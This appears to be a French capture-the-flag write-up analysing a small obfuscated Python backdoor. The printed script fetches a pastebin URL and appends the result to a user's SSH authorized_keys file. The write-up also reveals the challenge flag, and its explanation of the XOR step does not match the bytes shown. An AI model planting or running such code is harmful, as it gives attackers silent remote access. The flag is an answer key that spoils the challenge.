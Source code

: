 
![bibliotheque_5](bibliotheque_5.png)

![backdoor](backdoor.py)

## Résolution

On a un script qui à été volontairement compliqué pour rien. 

```python
import requests as __import_0__  
import base64 as __import_1__  
  
def __function_0__():  
    __variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 53, 97, 72, 106, 49, 57, 107, 101])  
    __variable_1__ = 10  
    for __variable_2__ in range(len(__variable_0__)):  
        __variable_0__[__variable_2__] ^= __variable_1__  
    __variable_3__ = __variable_0__.decode('ascii')  
    __variable_4__ = __import_0__.get(__variable_3__)  
    __variable_4__.raise_for_status()  
    __variable_5__ = __variable_4__.text  
    __variable_6__ = "/home/tchia/.ssh/authorized_keys"  
    with open(__variable_6__, "a") as __variable_7__:  
        __variable_7__.write(__variable_5__ + "\n")  
  
if __name__ == "__main__":  
    __function_0__()
```

Ce qu’on comprend : 
* il y a un tableau de bytes avec des données
* le script fait du xor sur ces données
* il fait une requête sur le résultat décodé des bytes 
* met ce résultat dans un fichier sur le système

On va donc reconstruire ces données et fait l’appel à l’url en question : 

```python
import requests as requests

# tableau de bytes
data = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119,  47, 53, 97, 72, 106, 49, 57, 107, 101])
# on converti en ascii
ascii = data.decode('ascii')  
# on fait une requête sur l'url trouvé et on affiche le résultat
print(requests.get(ascii).text)  
```


>[!question]- Spoiler du flag
> OPENNC{Br4v0_Vous_4vez_Termin3}

